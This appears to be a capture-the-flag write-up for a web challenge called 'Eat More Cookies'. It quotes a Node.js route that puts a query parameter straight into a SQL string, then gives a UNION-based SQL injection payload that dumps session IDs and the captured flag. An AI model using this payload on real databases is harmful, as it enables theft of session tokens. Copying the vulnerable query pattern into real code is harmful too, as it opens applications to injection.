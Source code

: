 # Eat More Cookies
> `-`

## About the Challenge
We got a website and also the source code (You can download the source code [here](EatMoreCookies.zip)). Here is the preview of the website

![preview](images/preview.png)

If we check the source code, especially this part:

```js
app.get("/searchcookies", isAuthenticated, async (req, res, next) => {
  cookies = req.query.cookies;

  const query = `SELECT * FROM cookies WHERE flavor = "${cookies}"`;

    pool.query(query, (err, result) => {
      if(err){
        return next(err)
      }

    return res.status(200).render("index", {cookies: result || []})
    });
})
```

The `cookies` paramter is vulnerable to SQL injection, and the flag is inside another table called `sessions`

```js
try {
    const adminCookieData = {"cookie":{"originalMaxAge":86400000,"expires":"2024-04-20T19:21:29.400Z","httpOnly":true,"path":"/", "sameSite": "lax"},"username":"Admin","isAdmin":true};
    const sessionId = 'WSUCTF{F4ke_Flag}';
    const expirationTimestamp = 1712172179;

    const serializedData = JSON.stringify(adminCookieData);

    const query = `INSERT INTO sessions (session_id, data, expires) VALUES (?, ?, ?)`;
```

## How to Solve?
To get every `session_id` inside `sessions` table, im using this payload:

```
" union select 1,(select group_concat(session_id) from sessions),3-- -
```

![flag](images/flag.png)

```
{WSUCTF24:S3arching_Thr0ugh_Very_Expr3ssive_DBz}
```